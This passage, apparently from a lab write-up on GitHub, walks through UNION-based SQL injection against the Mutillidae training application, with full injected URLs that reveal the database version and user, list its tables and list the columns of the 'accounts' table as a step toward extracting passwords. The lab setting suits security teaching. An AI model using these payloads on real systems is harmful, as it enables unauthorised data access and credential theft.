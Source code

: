 As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
## OUTPUT:
![{AB6E05B4-B7B1-4981-9FC6-90692201F982}](https://github.com/user-attachments/assets/6022edba-cb8d-4490-af75-19093652b06c)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.
http://192.168.1.10/mutillidae/index.php?page=user-info.php&username=blaise%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
## OUTPUT:
![{0002973A-5AF7-4C32-B994-A81624440FB8}](https://github.com/user-attachments/assets/faee3c63-caff-4cb9-8736-086ac75ee443)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’
http://192.168.1.10/mutillidae/index.php?page=user-info.php&username=blaise%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
## OUTPUT:
![{033A74C8-9DD5-4471-97FA-77A47AC2EE56}](https://github.com/user-attachments/assets/85e95ff5-3ce8-41a0-9e16-e68bfaddb18a)
![{AD9A7552-110E-425A-9758-A996C658F3C8}](https://github.com/user-attachments/assets/6632160b-5cb8-4ad9-95bc-cabfd22c6438)


The url once executed will  retrieve table names from the “owasp 10” database.


## Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

The column names of the accounts is displayed below for the following url:
http://192.168.1.10/mutillidae/index.php?page=user-info.php&username=blaise%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details 

## OUTPUT:
![{CDEA8F71-7DC6-4FDF-833C-B665149EF259}](https://github.com/user-attachments/assets/f2ee55f2-9b73-4ec7-8afb-0897503a31bc)
